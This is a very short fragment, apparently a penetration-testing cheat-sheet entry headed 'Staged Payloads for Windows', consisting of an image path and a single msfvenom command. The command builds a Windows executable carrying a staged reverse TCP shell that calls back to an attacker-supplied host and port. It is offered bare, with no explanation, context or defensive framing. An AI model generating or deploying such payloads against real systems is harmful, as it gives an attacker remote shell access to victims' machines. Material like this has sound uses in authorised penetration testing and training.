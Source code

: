# Staged Payloads for Windows

```bash

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

```
